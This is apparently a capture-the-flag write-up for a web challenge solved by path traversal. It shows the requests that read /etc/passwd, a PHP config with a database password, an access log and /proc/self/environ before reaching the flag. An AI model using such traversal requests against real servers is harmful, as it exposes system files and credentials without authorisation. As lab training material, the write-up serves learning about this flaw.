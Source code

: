 Writeup
First inspect or look at the source code

<div class="hidden">
        <p>Start by checking what this site tells search engine bots in <a href="/robots.txt" style="color: #00bcd4;">robots.txt</a></p>
</div>
so we get a hint to go to the robots.txt endpoint on going there u get

User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
so u go to the /file?path=../../etc/passwd endpoint and it says

"root:x:0:0:root:/root:/bin/bash\n"
            "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n"
            "bin:x:2:2:bin:/bin:/usr/sbin/nologin\n"
            "sys:x:3:3:sys:/dev:/usr/sbin/nologin\n"
            "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
            "webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash\n"
so u try the /file?path=/var/www/html/config.php:/home/webadmin:/bin/bash and u get

"<?php\n"
            "// Database configuration\n"
            "$db_host = 'localhost';\n"
            "$db_user = 'admin';\n"
            "$db_pass = 's3cr3t_p@ssw0rd';\n"
            "// Debug info: Check the access logs for unusual activity\n"
            "// Log location: /var/log/apache2/access.log\n"
            "?>"
so u try the /file?path=/var/log/apache2/access.log and u get

"127.0.0.1 - - [01/Jan/2023:10:30:45 +0000] \"GET / HTTP/1.1\" 200 1234 \"-\" \"Mozilla/5.0\"\n"
            "192.168.1.100 - - [01/Jan/2023:10:31:22 +0000] \"GET /file?path=../../etc/passwd HTTP/1.1\" 200 567 \"-\" \"Python-urllib\"\n"
            "10.0.0.50 - - [01/Jan/2023:10:32:15 +0000] \"GET /admin HTTP/1.1\" 404 289 \"-\" \"curl\"\n"
            "# Interesting environment variables might be found at /proc/self/environ\n"
            "203.0.113.5 - - [01/Jan/2023:10:33:01 +0000] \"POST /login HTTP/1.1\" 302 - \"-\" \"Mozilla/5.0\"\n"
and then u go to /file?path=/proc/self/environ and u get

"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\n"
            "HOSTNAME=web-server-01\n"
            "USER=www-data\n"
            "HOME=/var/www\n"
            "SECRET_LOCATION=/home/ctf/.secret\n"
            "PWD=/var/www/html\n"
            "LANG=C.UTF-8\n"
            "SHLVL=1\n"
and then u go to /file?path=/home/ctf/.secret and u get

"Directory listing for /home/ctf/.secret:\n"
            "total 12\n"
            "drwx------ 2 ctf ctf 4096 Jan  1 10:00 .\n"
            "drwxr-xr-x 5 ctf ctf 4096 Jan  1 09:55 ..\n"
            "-r-------- 1 ctf ctf   48 Jan  1 10:00 flag.txt\n"
            "\n"
and then u go to /home/ctf/.secret/flag.txt and u get the flag!
Flag: citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}

Flag: citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}
